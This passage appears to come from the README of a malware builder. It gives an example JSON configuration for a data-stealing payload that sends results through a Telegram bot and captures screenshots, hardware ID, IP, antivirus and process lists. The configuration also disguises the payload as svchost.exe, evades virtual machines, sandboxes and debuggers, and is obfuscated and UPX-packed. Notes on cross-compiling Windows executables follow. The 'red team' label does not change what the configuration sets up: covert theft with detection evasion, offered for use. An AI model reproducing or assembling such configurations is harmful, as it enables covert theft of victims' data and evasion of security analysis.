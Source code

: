 ```json
    "telegram": {
      "token": "YOUR_BOT_TOKEN",
      "chatId": "YOUR_CHAT_ID"
    }
  },
  "screenshots": {
    "desktop": true
  },
  "systemInfo": {
    "hwid": true,
    "ip": true,
    "os": true,
    "av": true,
    "processes": true
  },
  "stealth": {
    "hideConsole": true,
    "processName": "svchost.exe",
    "mutex": "Global\\MyMutex",
    "selfDestruct": false
  },
  "antiAnalysis": {
    "vm": true,
    "sandbox": true,
    "debug": true,
    "sleepEvasion": true
  },
  "buildOptions": {
    "architecture": "x64",
    "obfuscate": true,
    "upx": true,
    "icon": "path/to/custom.ico"
  }
}
```

**Use Case**: Full-featured red team payload with anti-analysis and comprehensive data gathering.

---

## 🔄 Cross-Compilation Notes

### Linux → Windows Cross-Compilation

The builder automatically detects and uses MinGW-w64 for cross-compilation on Linux:

| Component | Value |
|-----------|-------|
| **Compiler** | `x86_64-w64-mingw32-g++` (x64) / `i686-w64-mingw32-g++` (x86) |
| **Output Format** | Windows PE executable |
| **Linking** | Static (no DLL dependencies) |
| **Runtime** | Statically linked libgcc/libstdc++ |
